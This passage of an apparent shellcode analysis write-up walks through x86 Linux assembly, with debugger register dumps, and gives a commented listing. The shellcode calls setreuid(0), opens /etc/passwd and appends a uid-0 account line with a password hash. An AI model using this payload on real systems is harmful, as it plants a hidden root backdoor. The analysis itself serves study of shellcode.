 Here we can see EAX is populated with a 4 which is the write() syscall. Our open file descriptor is still in EBX from earlier. Our string to write is in ECX, along with its length (38) in EDX. 

Essentially our syscall looks like this:

```
write(3, "absolomb:Az3g.zbq9cr7c:0:0::/:/bin/sh" , 38)
```

## exit()

Our last section is fairly short and simple.

```nasm
push   0x1
pop    eax	
int    0x80	
```

```
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x3 
ECX: 0x40206b ("absolomb:Az3g.zbq9cr7c:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
EDX: 0x26 ('&')
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff35c ("/etc//passwd")
EIP: 0x40209d --> 0x80cd
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x402098 <code+88>:	int    0x80
   0x40209a <code+90>:	push   0x1
   0x40209c <code+92>:	pop    eax
=> 0x40209d <code+93>:	int    0x80
   0x40209f <code+95>:	add    BYTE PTR [eax],al
   0x4020a1:	add    BYTE PTR [eax],al
   0x4020a3:	add    BYTE PTR [eax],al
   0x4020a5:	add    BYTE PTR [eax],al
```


This last part is simply exiting the program, pushing the exit syscall (1) to the stack and popping it, then calling exit. The exit number stored in EBX really doesn't matter here so whatever is left from EBX is the code returned, which is a 3. 

```
exit(3)
```

## Final Commented Assembly

```nasm
xor    ecx,ecx			; set ecx to zero
mov    ebx,ecx			; move zero into ebx
push   0x46			; syscall setreuid
pop    eax			; move setreuid into eax
int    0x80			; execute setreuid
push   0x5			; syscall open 
pop    eax			; 
xor    ecx,ecx			; clear ecx to 0
push   ecx			; 0 to stack
push   0x64777373		; "dwss"
push   0x61702f2f		; "ap//"
push   0x6374652f		; "cte/"
mov    ebx,esp			; point to stack
inc    ecx			; 
```